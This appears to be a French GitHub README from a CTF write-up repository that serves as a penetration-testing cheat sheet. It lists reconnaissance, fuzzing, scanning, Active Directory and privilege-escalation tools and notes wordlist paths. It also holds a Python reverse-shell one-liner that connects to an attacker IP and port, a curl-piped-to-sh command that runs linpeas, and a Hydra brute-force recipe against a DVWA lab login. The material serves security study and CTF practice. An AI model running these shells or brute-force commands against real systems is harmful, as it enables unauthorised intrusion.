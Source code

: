 # CTF
Write-up des chall que j'ai réalisé


# TOOLS
FrameWork pour OSINT de numero de telephone => phoneinfoga 
FUZZ => Feroxbuster, dirb, dirbuster, gobuster

Scanner de vulnerabilitö web => nikto, Nessus, Rapid7, OpenVas
Done => fuzz sous-domaine + Port Scan (https://github.com/v4d1/Dome) 

Scanner de platforme web => BurpSuite, ZAProxy

Reconnaissance passive graphique => Maltego
Reconnaissance passive => Metagoofil

yersinia => Pour les protocoles de communication (Cisco et autre)

CRUNSH : DICO + SEL

CUPP : Création de dico en fonction des noms données

Setoolkit : Social Ingénieuring (copie de site pour récupérer les URL)

hashid : donne le type de hash d'un hash

arpspoof : recupere les requetes ARP et les transmets (man in the middle)

exiftool : metadata du fichier

hexdump : (-C) transformation en hexa du fichier bin

powershell-empire : comme metaspote, exploit windows

KrbRelayUp : Escalation privilege sur Windows en exploitant les requêtes LDAP non-signées

recon-ng : Framework de reconnaissance passive (avec API)

Discover : Framework de reconnaissance passive (avec API) + recon ng + google dorks

pypykatz / Empire : Check des fichiers pour monter les privilèges WINDOWS

linuxprivchecker et linpeas : Check des fichiers pour monter les privilèges LINUX
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh

Steghide : Extraction de fichier a partir d'un autre fichier et passphrase

crackmapexec : Pentest orienté AD (connexion via plusieurs protocole, script, hash, un couteau suisse)

dnSpy : Reverse Application : https://github.com/dnSpy/dnSpy

-----Scanner-----

nmapAutomator : git clone https://github.com/21y4d/nmapAutomator.git
                sudo ln -s $(pwd)/nmapAutomator/nmapAutomator.sh /usr/local/bin/
                
-----WEB------

Nikto : Pentest Web -> check une URL

dirb : brute force pour trouvé des pages web ou des dossiers

zaproxy : Nessus pour le web (scan les vulnérabilitées)

wpscan : scan wordpress -> Puissant

curl : requete vers site web

droopescan : Scan de site Drupal (comme Wpscan pour workPress)

Cewl : récupere les mots d'un site et fait un dico pour brute force

https://whatsmyname.app/ : recherche de compte a partir d'un pseudo 

GTFOBins : Exploit de binaire Linux => https://gtfobins.github.io/


--------------

Avoir un shell :
python3 -c 'import pty;pty.spawn("/bin/bash")'

export RHOST="10.10.14.5";export RPORT=4242;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'


# BRUTE FORCE
Avec Hydra :
```
CSRF=$(curl -s -c dvwa.cookie "192.168.1.44/DVWA/login.php" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)
```
```
SESSIONID=$(grep PHPSESSID dvwa.cookie | awk -F ' ' '{print $7}')```
```
```
curl -s -b dvwa.cookie -d "username=admin&password=password&user_token=${CSRF}&Login=Login" "192.168.1.44/DVWA/login.php"
```
```
hydra  -L /usr/share/seclists/Usernames/top_shortlist.txt  -P /usr/share/seclists/Passwords/rockyou-40.txt \
  -e ns  -F  -u  -t 1  -w 10  -v  -V  192.168.1.44  http-get-form \
  "/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:S=Welcome to the password protected area:H=Cookie\: security=low; PHPSESSID=${SESSIONID}"
```

# WORDLIST :
/usr/share/wordlists
  |--dirb
  |--dirbuster
  |--fasttrack.txt
  |--fern-wifi
  |--metasploit
  |--nmap.lst
  |--rockyou.txt
  |--wfuzz

/usr/share/wordlists/dirb/common.txt => sub domain 

/usr/share/wordlists/dirb/big.txt => sub domain 

/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 

/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

/usr/share/seclist/bitquark-subdomains-top100000.txt

/usr/share/seclist/subdomains-top1millions-110000.txt

# AD / Windows Tools :

evil-winrm : connection a windows (avec un meterpreter)

BloodHound (avec neo4j)

windapsearch : Recherche sur LDAP (si soucis d'installation faire :
```
sudo pip2 install ldap3 
sudo apt install python3-ldap 
```
